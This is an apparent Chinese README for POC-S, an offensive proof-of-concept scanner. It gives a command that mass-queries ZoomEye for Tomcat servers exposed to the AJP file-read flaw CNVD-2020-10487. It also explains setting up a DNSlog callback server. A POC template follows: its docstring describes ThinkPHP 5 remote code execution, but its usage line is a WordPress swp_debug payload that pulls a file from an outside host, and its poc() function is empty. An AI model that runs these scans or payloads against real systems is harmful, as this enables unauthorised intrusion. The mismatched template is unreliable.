 利用ZoomEye批量搜索CNVD-2020-10487 tomcat ajp lfi漏洞

	pip install pocs==1.3
	pocs -b apache -aZ "app:tomcat" --limit 50 -t 30 -o ajp.txt

![](test.png)

3. dnslog平台使用

如果你还在纠结于ceye的不稳定，没有时间精力搭建DNSLog平台(需要两个域名，一个公网ip, 且域名还需要能够修改dns服务器)
那么不妨试一试POC-S提供的简易dnslog平台，只需要一个域名和一个公网ip即可搭建，提供api接口进行验证(无界面)

在公网(x.x.x.x)运行命令: 
```
pip install pocs
pocs_dnslog  (如果不是pip安装的可以直接运行pocs.dnslog.py脚本)
>>> dns domain: xxx.cn
>>>api key: rivir
```

dns log命令，只支持如下: `nslookup 1234.pocs.xxx.cn x.x.x.x`  //xxx.cn是你的公网域名，x.x.x.x是公网ip

web log命令: `curl xxx.cn:88/weblog/poc123`

api接口地址: `http://x.x.x.x:88/api/?token={token}&type={dns}&filter=1234.pocs.xxx.cn`

## POC
pocs 提供更加灵活的插件分类方式，目前收集到的总结有四类POC: Fuzz POC, OWASP POC, Vuln POC, Tool POC.  POC这块会尽量收集一些github上面已有的POC, 但不会太多，还是需要个人自己去收集整理。f  

POC编写会尽可能规范，遵循POC-T的编写风格。eg如下
```
#!/usr/bin/env python		
#coding:utf-8

"""
ThinkPHP5 <=5.0.22/<=5.1.29 远程代码执行漏洞

Desc
    2018年12月10日中午，thinkphp官方公众号发布了一个更新通知，包含了一个5.x系列所有版本存在被getshell的高风险漏洞。
    由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，
    受影响的版本包括5.0.23和5.1.31之前的所有版本，推荐尽快更新到最新版本。
Version
	ThinkPHP5.0 版本 <= 5.0.22 ThinkPHP5.1 版本 <= 5.1.29
Usage:
	1. python POC-S.py -s 
	2. POC: /wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://lj.s7star.cn/info.txt
Referer
	https://www.seebug.org/vuldb/ssvid-9771
"""

import requests

def poc(url):
    pass
```
